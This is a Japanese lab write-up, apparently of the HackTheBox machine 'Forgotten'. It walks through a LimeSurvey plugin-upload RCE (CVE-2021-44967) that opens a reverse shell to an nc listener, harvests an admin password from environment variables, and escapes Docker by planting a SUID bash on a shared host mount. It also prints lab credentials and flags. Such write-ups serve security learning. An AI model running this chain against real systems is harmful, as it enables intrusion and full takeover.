### CVE-2021-44967: Plugin Upload RCE

管理画面の `Configuration` > `Plugins` からプラグインをアップロードします。





Plugins ページが表示されました。`Upload & install` ボタンから、先ほど作成した悪意のあるプラグイン ZIP をアップロードします。



`myPlugin.zip` を選択して `Install` を押します。



`myPlugin` としてアップロードが成功し、確認画面が表示されました。`Install` を押してインストールします。



プラグイン一覧に `myPlugin` が追加されました。



Action の `...` ボタンから `Activate` を押してプラグインを有効化します。



アップロードしたプラグインがどこにあるかは以下のサイトにかかれていました。

https://www.limesurvey.org/manual/Make_your_plugin_compatible_with_LS4/en

`/upload/plugins/`の中に配置されるようですね（確かに、feroxbusterの結果で`/upload` がありましたね）

kali上でリスナーを立てて、`http://10.129.232.159/survey/upload/plugins/myPlugin/php-reverse-shell.php` にアクセスします。

```bash
┌──(kali㉿kali)-[~/htb/forgotten]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.16.52] from (UNKNOWN) [10.129.232.159] 36776
Linux efaa6f5097ed 6.8.0-1033-aws #35~22.04.1-Ubuntu SMP Wed Jul 23 17:51:00 UTC 2025 x86_64 GNU/Linux
 10:42:48 up 19:04,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=2000(limesvc) gid=2000(limesvc) groups=2000(limesvc),27(sudo)
/bin/sh: 0: can't access tty; job control turned off
$

```

取れましたね🎉

### シェルの安定化

pythonでやろうと思ったのですが、`python3`も`python`もなかったので、`script`を使ってシェルを安定化させます。

```bash
$ script /dev/null -qc /bin/bash
limesvc@efaa6f5097ed:/$ ^Z
zsh: suspended  nc -lvnp 4444

┌──(kali㉿kali)-[~/htb/forgotten]
└─$ stty raw -echo; fg
[1]  + continued  nc -lvnp 4444

limesvc@efaa6f5097ed:/$ export SHELL=/bin/bash; export TERM=screen
limesvc@efaa6f5097ed:/$ stty rows 38 columns 116
limesvc@efaa6f5097ed:/$ reset

limesvc@efaa6f5097ed:/$

```

## Privilege Escalation

### Docker コンテナ内の調査

安定化しましたので、これから情報を探してみます。

<CollapsibleCode>
```bash
limesvc@efaa6f5097ed:/$ id
uid=2000(limesvc) gid=2000(limesvc) groups=2000(limesvc),27(sudo)
limesvc@efaa6f5097ed:/$ uname -a
Linux efaa6f5097ed 6.8.0-1033-aws #35~22.04.1-Ubuntu SMP Wed Jul 23 17:51:00 UTC 2025 x86_64 GNU/Linux
limesvc@efaa6f5097ed:/$ cat /etc/os-release
PRETTY_NAME="Debian GNU/Linux 11 (bullseye)"
NAME="Debian GNU/Linux"
VERSION_ID="11"
VERSION="11 (bullseye)"
VERSION_CODENAME=bullseye
ID=debian
HOME_URL="https://www.debian.org/"
SUPPORT_URL="https://www.debian.org/support"
BUG_REPORT_URL="https://bugs.debian.org/"
limesvc@efaa6f5097ed:/$ sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for limesvc:
sudo: a password is required
limesvc@efaa6f5097ed:/$ cat /etc/passwd | grep -v nologin
root:x:0:0:root:/root:/bin/bash
sync:x:4:65534:sync:/bin:/bin/sync
limesvc:x:2000:2000::/home/limesvc:/bin/bash
limesvc@efaa6f5097ed:/$ find / -perm -4000 -type f 2>/dev/null
/bin/umount
/bin/su
/bin/mount
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/sudo
limesvc@efaa6f5097ed:/$ env
SHELL=/bin/bash
HOSTNAME=efaa6f5097ed
PHP_VERSION=8.0.30
APACHE_CONFDIR=/etc/apache2
PHP_INI_DIR=/usr/local/etc/php
GPG_KEYS=1729F83938DA44E27BA0F4D3DBDB397470D12172 BFDDD28642824F8118EF77909B67A5C12229118F 2C16C765DBE54A088130F1BC4B9B5F600B55F3B4 39B641343D8C104B2B146DC3F9C39DC0B9698544
PHP_LDFLAGS=-Wl,-O1 -pie
PWD=/
APACHE_LOG_DIR=/var/log/apache2
LANG=C
LS_COLORS=
PHP_SHA256=216ab305737a5d392107112d618a755dc5df42058226f1670e9db90e77d777d9
APACHE_PID_FILE=/var/run/apache2/apache2.pid
PHPIZE_DEPS=autoconf            dpkg-dev                file            g++             gcc             libc-dev            make             pkg-config              re2c
LIMESURVEY_PASS=5W5HN4K4GCXf9E
TERM=screen
PHP_URL=https://www.php.net/distributions/php-8.0.30.tar.xz
LIMESURVEY_ADMIN=limesvc
APACHE_RUN_GROUP=limesvc
APACHE_LOCK_DIR=/var/lock/apache2
SHLVL=1
PHP_CFLAGS=-fstack-protector-strong -fpic -fpie -O2 -D_LARGEFILE_SOURCE -D_FILE_OFFSET_BITS=64
APACHE_RUN_DIR=/var/run/apache2
APACHE_ENVVARS=/etc/apache2/envvars
APACHE_RUN_USER=limesvc
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
PHP_ASC_URL=https://www.php.net/distributions/php-8.0.30.tar.xz.asc
PHP_CPPFLAGS=-fstack-protector-strong -fpic -fpie -O2 -D_LARGEFILE_SOURCE -D_FILE_OFFSET_BITS=64
_=/usr/bin/env
limesvc@efaa6f5097ed:/$
```
</CollapsibleCode>

envの結果で、
```
LIMESURVEY_PASS=5W5HN4K4GCXf9E
LIMESURVEY_ADMIN=limesvc
```

となっていて、パスワードがわかりましたね。
`sudo -l` がパスワードわからず諦めていたので、これを使ってみてみましょう。

```bash
limesvc@efaa6f5097ed:/$ sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for limesvc:
Matching Defaults entries for limesvc on efaa6f5097ed:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User limesvc may run the following commands on efaa6f5097ed:
    (ALL : ALL) ALL
limesvc@efaa6f5097ed:/$

```

`(ALL : ALL) ALL` なので最強ですね。`root`になりましょう。

```bash
limesvc@efaa6f5097ed:/$ sudo su
root@efaa6f5097ed:/# id
uid=0(root) gid=0(root) groups=0(root)
```

はい。ではフラグを取っちゃいましょう。

```bash
uid=0(root) gid=0(root) groups=0(root)
root@efaa6f5097ed:/# find / -name "user.txt" -o -name "root.txt" 2>/dev/null
root@efaa6f5097ed:/#
```

あれ、フラグがないですね :(

よく考えたら、そういえば現在はDockerのコンテナ内にいるだけですね。コンテナを脱出することを目指します。

### Docker Breakout

https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation/index.html

あまり私はdocker breakoutに詳しくないので、Hacktricksを参考にしました。

まずは [Mounted Docker Socket Escape](https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation/index.html#mounted-docker-socket-escape)
からやってみます。

```bash
root@efaa6f5097ed:/# find / -name docker.sock 2>/dev/null
root@efaa6f5097ed:/#

```

`docker.sock`がないのでこれはダメそうですね。

次に [Capabilities Abuse Escape](https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation/index.html#capabilities-abuse-escape)
です。

```bash
root@efaa6f5097ed:/# capsh --print
bash: capsh: command not found
root@efaa6f5097ed:/#

```

`capsh`がなかったので、[Processes & Binaries Capabilities](https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/linux-capabilities.html#processes--binaries-capabilities)
にある方法でやります。

```bash
root@efaa6f5097ed:/# cat /proc/$$/status | grep Cap
CapInh: 0000000000000000
CapPrm: 00000000a80425fb
CapEff: 00000000a80425fb
CapBnd: 00000000a80425fb
CapAmb: 0000000000000000
root@efaa6f5097ed:/#

```

kali側でデコードします

```bash
┌──(kali㉿kali)-[~]
└─$ capsh --decode=00000000a80425fb
0x00000000a80425fb=cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap

```

[Capabilities Abuse Escape](https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation/index.html#capabilities-abuse-escape)
にあった`CAP_SYS_ADMIN`などが一つもないので、ダメそうですね。

次に、[Arbitrary Mounts](https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation/index.html#arbitrary-mounts)
です。

マウントしているボリュームを調べてみます。

<CollapsibleCode>
```bash
root@efaa6f5097ed:/# mount
overlay on / type overlay (rw,relatime,lowerdir=/var/lib/docker/overlay2/l/53HNCQFKU7UT4MRNHXETIEU7PS:/var/lib/docker/overlay2/l/EC46IKT2LF6IUMTKX5EYK6Y6NS:/var/lib/docker/overlay2/l/AVXFR7EGT4F5744IOUZXTAPAXP:/var/lib/docker/overlay2/l/P5AO7VJP3KS26RV7L4G4A3CQMO:/var/lib/docker/overlay2/l/DUMS4MOPBZYYCT5MLU3KOIHV67:/var/lib/docker/overlay2/l/E6PFD55HUOLSDVI5HFVSG2MKY6:/var/lib/docker/overlay2/l/F2C2GU57ABILW44DR6N7IOAS2U:/var/lib/docker/overlay2/l/MTDNHTDTAHLYFOE23OONITLATE:/var/lib/docker/overlay2/l/HVR5FUOEP75JC4WLOLQCLICZW5:/var/lib/docker/overlay2/l/45JVDGBN2HJGR4ZFC56CA3QEFE:/var/lib/docker/overlay2/l/BLHTPLHTIDJITGF5LG7NDGIHIQ:/var/lib/docker/overlay2/l/ON6NXIXZRZZCFUPSYDLFPND5XG:/var/lib/docker/overlay2/l/URCYD6PEIO427ROGBDDSPOX7X4:/var/lib/docker/overlay2/l/TKNY7I37KDSR7UM34B7EAJWLEX:/var/lib/docker/overlay2/l/NI6IE4U3RKI3MI3XAZ7VSTRT5U:/var/lib/docker/overlay2/l/R2CP4KV5O4GJ4TW3FS73ARJZUR:/var/lib/docker/overlay2/l/JENNFERKWWS2TYSPK7WT7IGYT4:/var/lib/docker/overlay2/l/MMP56DFNWIP27YOKHUYTI3CVJ4:/var/lib/docker/overlay2/l/UBBT3YOEP4MEDPPJR5X4D474QX:/var/lib/docker/overlay2/l/ZHODKFSJJ4IAMIIQW7GBHG5QA3:/var/lib/docker/overlay2/l/WHNHWNHOFTA3DGNRVL3B3MMNY6:/var/lib/docker/overlay2/l/TQ6Z55HNEUJUXYWNUWJ4E5BLR3:/var/lib/docker/overlay2/l/UVBX7ES72OROVYQQPYGPTEIA4D:/var/lib/docker/overlay2/l/HCBBV74XSEA5GRAMKLUM7VELUP:/var/lib/docker/overlay2/l/VNQTVVELYXHIW5JNA2W7VHHGHA,upperdir=/var/lib/docker/overlay2/1a43e7d4669803c0891d7262954f27e54c5528c77990d3da808fa53d6b67ccdf/diff,workdir=/var/lib/docker/overlay2/1a43e7d4669803c0891d7262954f27e54c5528c77990d3da808fa53d6b67ccdf/work,uuid=null,nouserxattr)
proc on /proc type proc (rw,nosuid,nodev,noexec,relatime)
tmpfs on /dev type tmpfs (rw,nosuid,size=65536k,mode=755,inode64)
devpts on /dev/pts type devpts (rw,nosuid,noexec,relatime,gid=5,mode=620,ptmxmode=666)
sysfs on /sys type sysfs (ro,nosuid,nodev,noexec,relatime)
cgroup on /sys/fs/cgroup type cgroup2 (ro,nosuid,nodev,noexec,relatime,nsdelegate,memory_recursiveprot)
mqueue on /dev/mqueue type mqueue (rw,nosuid,nodev,noexec,relatime)
shm on /dev/shm type tmpfs (rw,nosuid,nodev,noexec,relatime,size=65536k,inode64)
/dev/root on /etc/resolv.conf type ext4 (rw,relatime,discard,errors=remount-ro)
/dev/root on /etc/hostname type ext4 (rw,relatime,discard,errors=remount-ro)
/dev/root on /etc/hosts type ext4 (rw,relatime,discard,errors=remount-ro)
/dev/root on /var/www/html/survey type ext4 (rw,relatime,discard,errors=remount-ro)
proc on /proc/bus type proc (ro,nosuid,nodev,noexec,relatime)
proc on /proc/fs type proc (ro,nosuid,nodev,noexec,relatime)
proc on /proc/irq type proc (ro,nosuid,nodev,noexec,relatime)
proc on /proc/sys type proc (ro,nosuid,nodev,noexec,relatime)
proc on /proc/sysrq-trigger type proc (ro,nosuid,nodev,noexec,relatime)
tmpfs on /proc/acpi type tmpfs (ro,relatime,inode64)
tmpfs on /proc/kcore type tmpfs (rw,nosuid,size=65536k,mode=755,inode64)
tmpfs on /proc/keys type tmpfs (rw,nosuid,size=65536k,mode=755,inode64)
tmpfs on /proc/latency_stats type tmpfs (rw,nosuid,size=65536k,mode=755,inode64)
tmpfs on /proc/timer_list type tmpfs (rw,nosuid,size=65536k,mode=755,inode64)
tmpfs on /proc/scsi type tmpfs (ro,relatime,inode64)
tmpfs on /sys/firmware type tmpfs (ro,relatime,inode64)
root@efaa6f5097ed:/#

```
</CollapsibleCode>

`usr/bin` や`/bin` のマウントはありませんが、`/var/www/html/survey` がマウントされていますね。また、`rw`とあり、読み書きの両方が可能です。

まずはこのディレクトリを確認します。

```bash
root@efaa6f5097ed:/# ls /var/www/html/survey
LICENSE      admin        docs         installer  node_modules      psalm-all.xml     setdebug.php  upload
README.md    application  gulpfile.js  locale     open-api-gen.php  psalm-strict.xml  themes        vendor
SECURITY.md  assets       index.php    modules    plugins           psalm.xml         tmp
root@efaa6f5097ed:/#

```

LimeSurveyのWebルートそのものですね。

ここで、次のセクションの[Privilege Escalation with 2 shells and host mount](https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation/index.html#privilege-escalation-with-2-shells-and-host-mount)
ですが、これはDocker側でrootを持っており、通常のホストでもシェルを取っていないと行けないようです。

通常のホストでシェルを取る方法があれば...と思っていたのですが、先程`limesvc`のパスワードを手に入れいてるので、同じクレデンシャルでsshに接続できないか試してみます。

### SSH でホストに接続

<CollapsibleCode>
```bash
┌──(kali㉿kali)-[~]
└─$ ssh limesvc@10.129.232.159
The authenticity of host '10.129.232.159 (10.129.232.159)' can't be established.
ED25519 key fingerprint is: SHA256:Dgu3MKOg2XUbjInyeAgQbBsHXIBePlc4jLIgssUKTt0
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.232.159' (ED25519) to the list of known hosts.
(limesvc@10.129.232.159) Password:
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 6.8.0-1033-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Wed Mar 11 15:10:05 UTC 2026

  System load:  0.01              Processes:             232
  Usage of /:   70.7% of 6.60GB   Users logged in:       0
  Memory usage: 23%               IPv4 address for eth0: 10.129.232.159
  Swap usage:   0%


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

1 additional security update can be applied with ESM Apps.
Learn more about enabling ESM Apps service at https://ubuntu.com/esm


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

limesvc@forgotten:~$

```
</CollapsibleCode>

入れています！これで2つのシェルが取れたので、Docker Breakout できそうです。

### SUID bash による root 取得

まずはrootのDocker側から、`/var/www/html/survey`にSUIDを立てたbashを配置します。

```bash
root@efaa6f5097ed:/var/www/html/survey# cp /bin/bash .
root@efaa6f5097ed:/var/www/html/survey# ls -al | grep bash
-rwxr-xr-x   1 root     root     1234376 Mar 11 15:12 bash
root@efaa6f5097ed:/var/www/html/survey# chmod 4777 bash
root@efaa6f5097ed:/var/www/html/survey# ls -al | grep bash
-rwsrwxrwx   1 root     root     1234376 Mar 11 15:12 bash
root@efaa6f5097ed:/var/www/html/survey#

```

`-rwsrwxrwx` で配置できていますね。

では、通常のホスト側から、`-p`をつけてbashを起動しましょう。

まずは、bashがどこに配置されたのか確認します。

```bash
limesvc@forgotten:~$ find / -user root -perm 4777 2>/dev/null
/opt/limesurvey/bash
limesvc@forgotten:~$

```

`/opt/limesurvey` がdockerでマウントされていたようですね。

では、`bash -p` でbashを起動します。

```bash
limesvc@forgotten:~$ cd /opt/limesurvey/
limesvc@forgotten:/opt/limesurvey$ ./bash -p
bash-5.1# id
uid=2000(limesvc) gid=2000(limesvc) euid=0(root) groups=2000(limesvc)
bash-5.1#

```

rootとして実行できています！

## Flags

`user.txt` と `root.txt` を確認します。

```bash
bash-5.1# find / -name "user.txt" -o -name "root.txt" 2>/dev/null
/root/root.txt
/home/limesvc/user.txt
bash-5.1# cat /home/limesvc/user.txt
f9168ba25c33bdeef07554acc253c38e
bash-5.1# cat /root/root.txt
fce8ade0d170853de286f828e4eeb501
bash-5.1#

```

Done!!!🎉